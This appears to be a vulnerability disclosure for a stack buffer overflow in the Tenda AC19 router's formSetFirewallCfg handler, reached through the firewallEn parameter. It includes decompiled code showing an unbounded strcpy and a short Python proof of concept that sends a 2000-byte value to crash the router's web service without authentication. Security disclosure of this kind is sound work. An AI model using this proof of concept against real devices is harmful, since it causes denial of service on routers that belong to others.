


# Tenda AC19: Stack-Based Buffer Overflow (CWE-121) in `formSetFirewallCfg` (`/goform/SetFirewallCfg` / `firewallEn`)

Discovered and reported by: Zeming Hu
Contact: henrythekingofuk@gmail.com
Discovery date: 7 October 2026

## Summary

Tenda AC19 web management interface (`formSetFirewallCfg` / `/goform/SetFirewallCfg`) is vulnerable to a stack-based buffer overflow via an overly long `firewallEn` parameter, allowing an unauthenticated attacker to crash the httpd service or potentially achieve arbitrary code execution.

## Impact

- **Impact type:** Denial of Service (DoS) of the httpd web service; potential Remote Code Execution (RCE) via stack corruption
- **Authentication required:** not required
- **Privilege:** root, because the httpd process runs with elevated privileges on the device
- **User interaction:** not required

## Affected Products

- **Vendor:** Tenda
- **Product:** Tenda AC19 Dual-Band Gigabit Wi-Fi Router
- **Vulnerability type:** Stack-Based Buffer Overflow (CWE-121)

### Tested vulnerable firmware

- V16.03.10.07

**Firmware download address:**  
https://www.tendacn.com/material/show/103871

> The vulnerability was verified on firmware version V16.03.10.07

## Attack Vector

- **Entry point:** `POST /goform/SetFirewallCfg`
- **Handler selector:** `formSetFirewallCfg`
- **Injection parameter:** `firewallEn`
- **Authentication:** not required
- **User interaction:** not required

## Technical Details

The httpd web management component in Tenda AC19 exposes a handler associated with `formSetFirewallCfg` and reachable through `/goform/SetFirewallCfg`. The interface requires no authentication and is reachable by an unauthenticated attacker. During request processing, the handler reads the user-controlled `firewallEn` parameter and copies it into the fixed-size stack buffer `dest` with `strcpy(...)`. Only a lower bound on the input length is checked (`strlen(src) >= 4`); no upper bound is enforced, so an overlong value overflows the destination buffer.

The vulnerable function flow, based on the decompiled firmware analysis, is:

```c
char *src;            // [sp+24h] [bp+24h]
char dest[4];         // [sp+28h] [bp+28h] BYREF
...
src = websGetVar(int)a1, (int)"firewallEn", (int)"1111";
if ( strlen(src) >= 4 )
{
  strcpy(dest, src);  // unsafe copy into 4-byte stack buffer
  ...
}
```



The vulnerability flow - numbered steps:

1. **Unvalidated external input**  
   The handler obtains the `firewallEn` value directly from the incoming HTTP request via `websGetVar(...)`. The endpoint performs no authentication, so any network-reachable attacker can supply it.

2. **Unsafe stack copy**  
   The externally controlled `firewallEn` string reaches the destination stack buffer `dest[4]`. The only guard is `strlen(src) >= 4`, which validates the lower bound but never the upper bound. An overlong value therefore overwrites the neighboring stack frame.

3. **Execution with system-level privileges**  
   The vulnerable operation occurs inside the router's httpd management process, which runs with elevated privileges. In testing, the immediate result was a crash and forced reboot of the device, and a sufficiently controlled overwrite could have broader security impact.

Overall, this matches **CWE-121: Stack-Based Buffer Overflow**.

## Proof of Concept (PoC)

### Steps to reproduce

1. Connect to the Tenda AC19 web management interface (default `http://192.168.0.1`).
2. Send a crafted POST request to `/goform/SetFirewallCfg` with an excessively long `firewallEn` value to overflow the stack buffer `dest[4]`.
3. Observe that the httpd service crashes and the device reboots, making the management interface temporarily unreachable.

### Example request

The following PoC sends an overlong `firewallEn` value to trigger the stack overflow in `formSetFirewallCfg`.

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
"""
[M-01] formSetFirewallCfg 栈溢出 char dest[4]
POST /goform/SetFirewallCfg
"""
import requests

r = requests.post("http://192.168.0.1/goform/SetFirewallCfg", data='firewallEn='+'A'*2000,
                  headers={"Content-Type": "application/x-www-form-urlencoded"}, timeout=10)
print(r.status_code, r.text[:200])

try:
    requests.get("http://192.168.0.1/", timeout=5)
    print("服务仍存活")
except requests.RequestException:
    print("!! 服务不可达, 疑似崩溃/DoS")
```

### Verification

After the request is sent, the router firmware crashes and forces a reboot; the device becomes unreachable for a short period, confirming a short-term denial of service.

**Vulnerable code / analysis evidence:**


**Observed result:**


## Credits

This vulnerability was discovered and reported by **Hu Zeming**.
